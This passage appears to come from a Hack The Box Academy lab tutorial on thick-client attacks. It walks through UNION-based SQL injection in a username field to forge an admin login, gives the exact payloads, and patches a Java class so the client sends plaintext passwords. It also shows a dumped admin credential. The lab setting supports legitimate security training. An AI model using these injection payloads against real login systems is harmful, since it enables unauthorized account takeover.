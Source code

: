 +----------+-------------+
| admin    | welcome123  |
+----------+-------------+
</code></pre>
<p>Similarly, the injection in the <code>username</code> field can be leveraged to create a fake user entry.</p>
<pre><code class="language-java">test' UNION SELECT 1,'invaliduser','<a class="__cf_email__" data-cfemail="5930372f3835303d1938773b" href="/cdn-cgi/l/email-protection">[email protected]</a>','invalidpass','admin
</code></pre>
<p>This way, the password, and the assigned role can be controlled. The following snippet of code sends the plaintext password entered in the form. Let's modify the code in <code>htb/fatty/shared/resources/User.java</code> to submit the password as it is from the client application.</p>
<pre><code class="language-java">public User(int uid, String username, String password, String email, Role role) {
    this.uid = uid;
    this.username = username;
    this.password = password;
    this.email = email;
    this.role = role;
}
public void setPassword(String password) {
    this.password = password;
  }
</code></pre>
<p>We can now rebuild the JAR file and attempt to log in using the payload <code>abc' UNION SELECT 1,'abc','<a class="__cf_email__" data-cfemail="b2d3f2d09cd1dddf" href="/cdn-cgi/l/email-protection">[email protected]</a>','abc','admin</code> in the <code>username</code> field and the random text <code>abc</code> in the <code>password</code> field.</p>
<p><img alt="bypass" src="https://academy.hackthebox.com/storage/modules/113/thick_clients_web/bypass.png"/></p>
<p>The server will eventually process the following query.</p>
<pre><code class="language-sql">select id,username,email,password,role from users where username='abc' UNION SELECT 1,'abc','<a class="__cf_email__" data-cfemail="9effdefcb0fdf1f3" href="/cdn-cgi/l/email-protection">[email protected]</a>','abc','admin'
</code></pre>
<p>The first select query fails, while the second returns valid user results with the role <code>admin</code> and the password <code>abc</code>. The password sent to the server is also <code>abc</code>, which results in a successful password comparison, and the application allows us to log in as the user <code>admin</code>.</p>
<p><img alt="admin" src="https://academy.hackthebox.com/storage/modules/113/thick_clients_web/admin.png"/></p>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">
<p class="font-size-14 color-white mb-0">VPN Servers</p>
<p class="font-size-13 mb-0">
<i class="fas fa-exclamation-triangle text-warning"></i><span class="color-white ml-1">Warning:</span> Each
                    time you "Switch",
                    your connection keys are regenerated and you must re-download your VPN connection file.
                </p>
<p class="font-size-13 mb-0">
                    All VM instances associated with the old VPN Server will be terminated when switching to
                    a new VPN server. <br/>
                    Existing PwnBox instances will automatically switch to the new VPN server.</p>
<div class="row mb-3">
<div class="col-12 mt-2">
<div class="d-none justify-content-center vpn-loader">
<div class="spinner-border text-success" role="status">
<span class="sr-only">Switching VPN...</span>
</div>
</div>
<select aria-label="vpn server" class="selectpicker custom-form-control vpnSelector badge-select" title="Select VPN Server">